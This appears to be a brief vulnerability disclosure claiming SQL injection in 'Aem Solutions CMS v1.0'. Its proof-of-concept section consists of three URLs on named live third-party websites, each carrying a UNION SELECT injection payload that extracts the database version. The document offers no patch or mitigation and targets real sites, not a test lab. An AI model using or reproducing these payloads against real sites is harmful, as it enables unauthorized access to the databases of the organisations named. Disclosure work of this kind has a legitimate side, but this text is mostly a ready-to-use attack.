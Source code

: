 # Aem Solutions - Sql Injection

#### vender:https://www.aemsolutions.com/

#### Software: Aem Solutions CMS v1.0

Tested On: Mac, Firefox
## Proof of Concept:

### Demo :

https://www.aaar.co.in/page.php?id=-3%27%20union%20select%201,2,3,version(),5--+

https://csalok.com/page.php?id=2%27%20union%20select%201,2,3,version(),5--+

https://www.pnaindia.in/page.php?id=6%27%20union%20select%201,2,3,version(),5--+